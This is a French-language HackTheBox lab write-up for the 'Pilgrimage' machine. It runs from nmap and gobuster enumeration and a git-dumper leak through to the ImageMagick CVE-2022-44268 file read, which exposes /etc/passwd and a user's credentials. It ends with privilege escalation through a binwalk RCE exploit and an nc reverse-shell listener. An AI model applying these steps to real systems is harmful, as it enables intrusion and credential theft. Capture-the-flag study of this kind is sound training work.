 ```yaml
---
title:  "HacktheBox WriteUp : Pilgrimage"
category: HackTheBox
tag: writeups
---
```


### Scanner le réseau

`sudo nmap 10.10.11.219 -sV -A`

On voit qu'il y a le port 22 et 80 d'ouvert. On énumère un peu plus.


```console
┌──(misoko㉿kali)-[~]
└─$ nmap -n -p22,80 -sV -sC 10.10.11.219
Starting Nmap 7.92 ( https://nmap.org ) at 2023-10-29 10:52 CET
Nmap scan report for 10.10.11.219
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 20:be:60:d2:95:f6:28:c1:b7:e9:e8:17:06:f1:68:f3 (RSA)
|   256 0e:b6:a6:a8:c9:9b:41:73:74:6e:70:18:0d:5f:e0:af (ECDSA)
|_  256 d1:4e:29:3c:70:86:69:b4:d7:2c:c8:0b:48:6e:98:04 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://pilgrimage.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

On ajoute l'adresse au `/etc/hosts`.
```console
echo "10.10.11.219 pilgrimage.htb" | sudo tee -a /etc/hosts
```

On visite le site web, et pendant ce temps là on énumère sur le nom de domaine :
```console
┌──(misoko㉿kali)-[~]
└─$ gobuster dir -u http://pilgrimage.htb/ --wordlist /usr/share/dirb/wordlists/common.txt

...
/.hta                 (Status: 403) [Size: 153]
/.htaccess            (Status: 403) [Size: 153]
/.git/HEAD            (Status: 200) [Size: 23]
/.htpasswd            (Status: 403) [Size: 153]
/assets               (Status: 301) [Size: 169] [--> http://pilgrimage.htb/assets/]
/index.php            (Status: 200) [Size: 7621]
/tmp                  (Status: 301) [Size: 169] [--> http://pilgrimage.htb/tmp/]
/vendor               (Status: 301) [Size: 169] [--> http://pilgrimage.htb/vendor/]
```

Le path au `.git` m'interpelle.

On utilise le tool [git-dumper](https://github.com/arthaud/git-dumper?source=post_page-----9e070a99ac40--------------------------------) :
```
python3 git_dumper.py http://pilgrimage.htb/.git git
```

<img src="/assets/images/WriteUps/HackTheBox/Pilgrimage/gitdumper.png" width="400px" height="40px" style="display: block; margin: 0 auto"/>


On observe dans le code source de `index.php` une ligne de code qui nous donne le nom de l'outil utilisé pour réduire la taille de l'image :
<img src="/assets/images/WriteUps/HackTheBox/Pilgrimage/codeIndex.png" width="500px" height="40px" style="display: block; margin: 0 auto"/>
On récupère la version de l'outil et on trouve un exploit sur google (CVE-2022-44268) avec un [POC](https://github.com/voidz0r/CVE-2022-44268).
<img src="/assets/images/WriteUps/HackTheBox/Pilgrimage/versionMagick.png" width="200px" height="40px" style="display: block; margin: 0 auto"/>

### Utilisation de la CVE

Le détail est expliqué dans le POC, mais on va résumer les différentes étapes.

```console
cargo run "/etc/passwd"
```
Puis on uplaod l'image sur le site, et on récupère l'image en output fournie par `pilgrimage.htb`.

```console
$ identify -verbose 653e443922a9c.png
```
<img src="/assets/images/WriteUps/HackTheBox/Pilgrimage/DecryptedEtcPasswd.png" width="600px" height="100px" style="display: block; margin: 0 auto"/>

On a un exploit de type **Information Disclosure** qui est fonctionnel. De plus, on s'aperçoit d'un nom d'utilisateur : `emily` dans le fichier `/etc/passwd`.

Malheuresement, la lecture du fichier `/home/emily/.ssh/id_rsa` n'est pas possible avec cet exploit, probablement par manque de droit / fichier non existant.

En revenant sur ce que l'on a, on analyse le fichier `index.php`, où l'on voit la création d'une base de données **sqlite** :

<img src="/assets/images/WriteUps/HackTheBox/Pilgrimage/sqliteCreationDB.png" width="320px" height="80px" style="display: block; margin: 0 auto"/>

On décide donc de refaire l'opération de l'exploit précédent sur le fichier `/var/db/pilgrimage`.
On obtient une succession de données, largement remplie de 0, avec ce qui s'apparent à être les credentials de emily.

<img src="/assets/images/WriteUps/HackTheBox/Pilgrimage/emilyCredentials.png" width="320px" height="80px" style="display: block; margin: 0 auto"/>

On essaye de s'en servir pour la connection ssh, et on a effectivement l'accès au compte de emily.
On obtient le flag `user.txt`.

## Escalade de privilège

On vérifie le sudo : rien.
On lance le script `pspy64`, où l'on voit un processus qui fait un scan de malware :
<img src="/assets/images/WriteUps/HackTheBox/Pilgrimage/pspy64.png" width="400px" height="20px" style="display: block; margin: 0 auto"/>

<u>Contenu du fichier `/usr/sbin/malwarescan.sh`:</u>
<img src="/assets/images/WriteUps/HackTheBox/Pilgrimage/malwarescan.png" width="800px" height="200px" style="display: block; margin: 0 auto"/>

Le malware utilise donc `inotifywait` pour surveiller le dossier, puis en cas de modifications apportées aux fichiers du dossier, ils sont analysé par `binwalk`, un logiciel de détection de malware.

En récupérant la version de `binwalk`, on trouve une CVE pour un [RCE](https://www.exploit-db.com/exploits/51249) :
```
emily@pilgrimage:~$ /usr/local/bin/binwalk --help

Binwalk v2.3.2
Craig Heffner, ReFirmLabs
```

Utilisation de l'exploit sur une image aléatoire:
```console
$ python3 BinwalkExploit.py AAAExploit.png @IP @Port
```
On transfert le fichier sur la machine cible avec un serveur http en utilisant python.

Puis côté attaquant :
```
$ nc -lvnp 2222
```

Côté victime (emily), on va récupérer l'image qui contient l'exploit, et la déplacer dans le dossier qui va être analysé par binwalk. Au moment de l'analyse, ce dernier exécutera l'exploit et provoquera la connection à notre reverseshell (grâce au nc en écoute) :

```console
emily@pilgrimage:/tmp$ cp AAAExploit.png /var/www/pilgrimage.htb/shrunk/
```


## Ref
- [git-dumper](https://github.com/arthaud/git-dumper?source=post_page-----9e070a99ac40--------------------------------)
- [Image Magick exploit](https://www.exploit-db.com/exploits/51261)
- [POC Image Magick 7.1.0 ](https://github.com/voidz0r/CVE-2022-44268)
- [binwalk](https://www.exploit-db.com/exploits/51249)